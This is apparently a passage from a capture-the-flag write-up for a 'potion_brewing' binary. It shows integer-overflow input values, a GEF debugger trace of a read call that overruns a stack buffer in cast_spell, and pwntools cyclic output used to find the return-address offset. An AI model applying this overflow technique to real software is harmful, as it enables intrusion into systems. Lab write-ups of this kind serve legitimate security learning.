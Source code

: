 ```
> 1 <
ingredient: A            
mana boost: -2147483447
> 2 <
ingredient: B
mana boost: -2147483447
> 3 <
ingredient: C
mana boost: 0
> 4 <
ingredient: D
mana boost: 0
```

```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401344 <cast_spell+46>  lea    rax, [rbp-0xd0]
     0x40134b <cast_spell+53>  mov    rsi, rax
     0x40134e <cast_spell+56>  mov    edi, 0x0
 →   0x401353 <cast_spell+61>  call   0x401070 <read@plt>
   ↳    0x401070 <read@plt+0>     jmp    QWORD PTR [rip+0x2faa]        # 0x404020 <read@got.plt>
        0x401076 <read@plt+6>     push   0x4
        0x40107b <read@plt+11>    jmp    0x401020
        0x401080 <open@plt+0>     jmp    QWORD PTR [rip+0x2fa2]        # 0x404028 <open@got.plt>
        0x401086 <open@plt+6>     push   0x5
        0x40108b <open@plt+11>    jmp    0x401020
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
read@plt (
   $rdi = 0x0000000000000000,
   $rsi = 0x00007fffffffdb30 → 0x0000003000000008,
   $rdx = 0x0000000000000192
)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "potion_brewing_", stopped 0x401353 in cast_spell (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401353 → cast_spell()
[#1] 0x40145e → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Value `rdx` = 0x192 = 402

Now we just need to find the offset needed to override the return address. We can easily do this using the de Bruijn cycle.

```console
$ pwn cyclic 400

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad
```
